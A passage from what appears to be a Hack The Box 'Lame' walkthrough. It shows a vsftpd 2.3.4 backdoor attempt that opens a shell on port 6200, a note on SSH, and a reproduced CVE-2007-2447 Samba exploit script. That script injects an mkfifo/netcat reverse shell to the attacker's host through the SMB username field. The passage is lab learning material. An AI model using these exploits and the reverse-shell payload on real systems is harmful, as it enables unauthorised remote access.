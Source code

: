 ```python
tn2=Telnet(host, 6200)                              
print('Success, shell opened')                      
print('Send `exit` to quit shell')                  
tn2.interact()
```

After running the exploit it did not work!
```
┌─[zon@pwn]─[~/htb/lame]
└──╼ $python3 49757.py 10.10.10.3
id
ls
```

To double check, I tried the exploit manually and it still did not work
```
┌─[zon@pwn]─[~/htb/lame]
└──╼ $ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:zon): nergal:)
331 Please specify the password.
Password:
500 OOPS: priv_sock_get_result
Login failed.
421 Service not available, remote server has closed connection
```

# 22/TCP SSH
SSH usually has a low attack surface. I googled `OpenSSH 4.7p1` to see if there were any public exploits but I could not find one, let's move on

# 139/TCP & 445/TCP SMB

`nmap` determined that `smbd 3.0.20-Debian` is running on this server. I googled `smbd 3.0.20-Debian` and the first link was an [exploit-db](https://www.exploit-db.com/exploits/16320) entry to an RCE exploit dubbed CVE: 2007-2447. This exploit is in metasploit but I like to stay away from metasploit and understand how the exploit work (below I will do an in-depth analysis of this exploit). I did another google search for `CVE-2007-2447` and the first link was to [this repo](https://github.com/amriunix/CVE-2007-2447). 

`usermap_script.py`
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

# From : https://github.com/amriunix/cve-2007-2447
# case study : https://amriunix.com/post/cve-2007-2447-samba-usermap-script/

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Payload was sent - check netcat !")

if __name__ == '__main__':
```